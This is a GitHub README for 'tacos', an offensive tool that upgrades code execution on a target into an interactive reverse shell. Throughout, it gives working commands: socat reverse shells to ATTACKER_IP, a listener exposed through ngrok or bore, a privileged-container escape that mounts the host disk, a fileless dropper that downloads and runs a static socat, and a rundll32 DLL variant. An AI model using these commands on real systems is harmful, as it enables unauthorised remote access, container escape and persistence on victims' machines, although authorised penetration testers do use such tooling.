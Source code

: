 # tacos 🌮 
<sup>(reverse `socat`)</sup>

<div align=center>
<img src=https://github.com/ariary/tacos/blob/main/logo.png width=250>

Spawn a pty in your reverse shell to <strong>automaticaly</strong> make it <strong>interactive</strong> for socat listener.

<strong> Fast interactive reverse shell set-up [ 🐳 (container) ](#with-docker-recommended)</strong>

<sup><code><b> All credit goes to <a href=https://github.com/laluka/pty4all>laluka</a> idea </b></code></sup>
</div>



Equivalent of:
```shell
socat exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP:PORT],verify=0
```

**Why ?**
* transform RCE to interactive reverse shell with almost no prerequisite (only `curl`)
* cross-platform *(windows support is OK but not yet interactive. It is recommended to use non-docker solution for it)*
* tired of hitting ^C and loosing your shell?
* too lazy to copy/paste/learn socat command
* target doesn't have `socat` and you don't want to do [this](#alternative)
* provide more advanced configuration to the tty (alias, etc)
* easier to obfuscate


## Usage

`tacos` is built to work with the simple and dramatically effective project [`pty4all`](https://github.com/laluka/pty4all):
```shell
# On attacker machine
tmux
./light-pty4all/socat-listener.sh --lhost [ATTACKER_IP] --lport [ATTACKER_PORT] #multi-handler

# On target (transfer tacos as you wish)
./tacos [ATTACKER_IP]:[ATTACKER_PORT]       # or .\tacos.exe [ATTACKER_IP]:[ATTACKER_PORT] for windows
# 💥
```

<details>
<summary><h4>🎁 Bonus n°1: expose listener to the world wide web</h4></summary>
Useful if target can't directly reach the attacker machine, but has internet access
<br> On attacker machine, install <code>ngrok</code> or <code>bore</code> and launch your listener:
<pre><code>
./light-pty4all/socat-listener-behind-tunneling.sh
</code></pre>

<i><b>N.B:</b></i> ngrok is more stable than bore for now
</details>

### With docker (recommended)

Source aliases *(for simplicity)*:
```shell
alias tacos.container='docker run --net host --rm -it ariary/tacos'
```

Launch multi-handler listener:
```shell
tacos.container [LISTENING_ADDR] [LISTENING_PORT] # [OPTIONAL_TACOS_ARS]
```

***Notes about `tacos` container security:***
> From a networking point of view, this is the same level of isolation as if the processes were running directly on the host and not in a container. However, in all other ways, such as storage, process namespace, and user namespace, the process is isolated from the host.

<details>
<summary><h4>🎁 Bonus n°2: <code>tacos</code> reverse shell image</h4></summary>
Useful if target is running docker, kubernetes, etc ...
<br> On attacker machine, launch your <code>tacos</code> listener as usual
<br> On target:
<pre><code>
docker run --privileged --rm -it ariary/tacos-reverse [TACOS_LISTENER_IP]:[TACOS_LISTENER_PORT]
</code></pre>
<blockquote>💡: <code>--privileged</code> mode is not mandatory. It is used to allow container escaping with:
<pre><code>
fdisk -l
mkdir /mnt/hostfs
mount /dev/sda1 /mnt/hostfs
</code></pre>
</blockquote>
<br>
<blockquote>💡: If you only have writing access to a manifest deploying containers. Use <code>ariary/tacos-reverse</code> image with appropriate arguments
</blockquote>
</details>

## Install

### Docker
```shell
docker pull ariary/tacos
```

### Release
```shell
curl -lO -L -s https://github.com/ariary/tacos/releases/latest/download/tacos && chmod +x tacos
```

### From git
need `go`:
```shell
git clone https://github.com/ariary/tacos.git && cd tacos
make before.build
make build.tacos          # or make build.tacos.windows
```

## Alternatives

Alternatively, if target does not have `socat`:
**Host** a [static](https://github.com/minos-org/minos-static/blob/master/static-get) version of `socat` binary and **download + execute it** using the stealthy  [`filess-xec`](https://github.com/ariary/fileless-xec) dropper:
```shell
# On attacker machine
# get socat static & expose it
static-get socat
python3 -m http.server 8080

# On target machine
# Use already downloaded fileless-xec to download socat and stealthy launch it with argument
fileless-xec [ATTACKER_IP]:8080/socat -- exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP]:443,verify=0
```

### Use dll instead of `.exe`
```shell
# On attacker machine:
# modify ./cmd/tacosdll/tacosdll.go with the according IP:PORT
$ GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -buildmode=c-shared -ldflags="-w -s -H=windowsgui" -o tacos.dll ./cmd/tacosdll/tacosdll.go

# On remote:
> rundll32.exe ./tacos.dll,Tacos
```
